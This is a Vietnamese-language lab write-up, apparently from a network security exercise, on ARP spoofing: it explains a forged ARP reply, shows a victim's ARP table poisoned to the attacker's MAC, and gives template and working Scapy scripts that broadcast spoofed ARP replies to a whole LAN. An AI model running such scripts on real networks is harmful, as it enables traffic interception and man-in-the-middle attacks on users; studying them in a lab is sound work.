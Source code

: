 *Note: Khúc này nhớ lưu file pcapng lại không tí lỡ tay xóa mất.*

Gói tin giả mạo này có:
- Địa chỉ nguồn: `02:42:0a:3d:07:33` 
- Địa chỉ đích: `02:42:0a:3d:07:0a`
- Là gói tin ARP Reply.
- Nội dung của gói tin này: Máy có địa chỉ IP là `10.61.7.20` có địa chỉ MAC là `02:42:0a:3d:07:33`. Hay nói cách khác là địa chỉ MAC của máy server lúc này đã bị biến thành địa chỉ MAC của máy Attacker.

- Kiểm tra lại trên máy User ta có:
```bash
root@e38b224c176e:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.61.7.51               ether   02:42:0a:3d:07:33   C                     eth0
10.61.7.20               ether   02:42:0a:3d:07:33   C                     eth0
```

---

## III. Kịch bản tấn công 2.
Kịch bản tấn công này tương tự như kịch bản tấn công 1, chỉ khác là lần này thay vì gửi tới một máy cụ thể thì sẽ thực hiện broadcast tới tất cả các máy trong mạng.

### 1. Mẫu
```py
#!/usr/bin/python3
from scapy.all import *

E = Ether(dst = 'ff:ff:ff:ff:ff:ff', src = '<Attacker_MAC>')
A = ARP(hwsrc = '<Attacker_MAC>', psrc = '<Server_IP>', hwdst = 'ff:ff:ff:ff:ff:ff', pdst = '<Random_IP_in_LAN>')

pkt = E/A
pkt.show()
sendp(pkt)
```

#### 2. Script attack

```py
#!/usr/bin/python3
from scapy.all import *

E = Ether(dst = 'ff:ff:ff:ff:ff:ff', src = '02:42:0a:3d:07:33')
A = ARP(hwsrc = '02:42:0a:3d:07:33', psrc = '10.61.7.20', hwdst = 'ff:ff:ff:ff:ff:ff', pdst = '10.61.7.20')

pkt = E/A
pkt.show()
sendp(pkt)
```
